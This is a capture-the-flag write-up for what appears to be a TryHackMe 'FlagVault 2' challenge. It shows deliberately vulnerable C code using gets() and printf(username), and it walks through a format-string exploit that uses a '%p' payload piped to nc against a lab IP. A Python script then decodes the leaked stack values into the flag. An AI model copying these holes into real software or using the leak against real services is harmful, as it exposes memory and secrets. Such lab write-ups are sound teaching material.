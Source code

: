 How did you do that? No worries. I'll adjust a couple of lines of code so you won't be able to get the flag anymore. This time, for real. Here's the source code once again

---
code source : 
```C
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( "  ______ _          __      __         _ _   \n"
 		" |  ____| |         \\ \\    / /        | | |  \n"
		" | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
		" |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
		" |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		"                  __/ |                      \n"
		"                 |___/                       \n"
		"                                             \n"
		"Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
		"==================================================================\n\n"
	      );
}

void print_flag(char *username){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}

void login(){
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// The flag isn't printed anymore. No need for authentication
	print_flag(username);
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

- in this version , the `login()` function calls `print_flag()` without any authentication.

- The `print_flag` function no longer prints the flag but still reads it into memory. The vulnerability lies in this line:

```c
printf(username);
```

User input is passed directly to `printf`, creating a **format string vulnerability**. 
### **Exploitation :**

 - we can use format string specifiers (such as %p or %s) to leak memory contents from the stack. Since the flag was read into memory (in the local variable flag), it is likely stored on the stack nearby. 
 - so, we can use following command : `python3 -c 'print("%p "*15)' | nc 10.10.165.100 1337` 
 >output

![](https://github.com/zakaria-mghili/writeups_HackfinityBattle_2025/blob/6af508656b4da17bacb5ec6e89d89622d3ab3fbb/img/falgVault2.png)

- in the output, look like a few stack values from the memory, let's try to convert it into a readable form (they are a hexadecimal value )
- the tow value have a readable value is :
	- 0x6d726f667b4d4854 --> mrof{MHT
	- 0x65757373695f7461 --> eussi_ta
- it's written in reverse order (possibly from a memory leak due to little-endian representation).

---

- To automate this we can use this script: 
 ```python
import struct

hex_values = ["7ffc7a66ce60","7f2dc46ad887","7","562b82dd2480","7ffc7a66f218","7ffc7a66f080","7f2dc47b0600","562b82dd22a0","6d726f667b4d4854","65757373695f7461","a7d73","7f2dc4626d96","7f2dc47afa00"]

flag = "".join([struct.pack("<Q", int(h, 16)).decode(errors="ignore") for h in hex_values])
print(flag)
```

>output 
```
`fzj-$݂+Vfzfz{-"݂+VTHM{format_issues}
mb-z-
```

so the flag is `THM{format_issues}`

